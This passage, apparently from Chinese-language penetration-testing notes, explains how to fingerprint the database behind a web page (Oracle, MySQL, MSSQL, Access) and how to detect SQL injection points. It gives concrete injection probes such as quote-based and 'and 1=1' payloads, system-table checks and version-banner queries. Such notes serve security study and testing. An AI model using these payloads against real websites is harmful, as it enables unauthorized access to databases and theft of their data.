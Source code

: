 （4）   length()   lengthb()  char_length()
1、Oracle： length(): 表示字符串长度 ； lengthb()：表示字符串的字节长度

2、mysql： length()：返回字符串所占的字节数； char_length()：返回字符串的字符数

基于其他方式，判断数据库类型
(1)  注释符判断

--是 Oracle 和 MSSQL 支持的注释符，如果返回正常，则说明为是这两种数据库类型之一

;是子句查询标识符，Oracle 不支持多行查询，因此如果返回错误，则说明很可能是 Oracle

 

(2)   特定语句

注意：Access只有一个数据库，直接猜解表名即可

and ( select count(*) from sys.usr_tables) > 0 oracle数据库

and (select count(*) from msysobjects) > 0 -返回权限不足为access数据库

and (select count(*)from MSysAccessObjects)>0 返回正确为access 数据库

and (select count(*)from sysobjects)>0 返回正常说明是 mssql 数据库

and length(user())>10 返回正常说明是 Mysql

Oracle 可以根据 from dual 虚拟库判断

 

（3） 判断注入点

数字型：id=2-1

字符型： ’ 、’)、 '))、 "、 ")、 "))

注释符：-- （--空格）、–+、/**/、#

通过观察页面是否正常，判断页面是否存在注入点

如 id=21’ and 1=1 %23 页面正常

id=21’ and 1=2 %23 页面返回无数据

 

MySQL 与 MSSQL 及 ACCESS 之间的区别

(1)MySQL5.0 以下没有 information_schema 这个默认数据库

(2)ACCESS 没有库名，只有表和字段，并且注入时，后面必须跟表名，因此只能爆表，ACCESS

举例：select 1,2,3 from table_name union select 1,2,3 from table_name

(3)MySQL 使用 limit 排序，ACCESS 使用 TOP 排序（TOP 在 MSSQL 也可使用）

 

各数据库标志性信息
sql server: select @@version --

Oracle : select banner from v$version

mysql ：select @@version, version() --
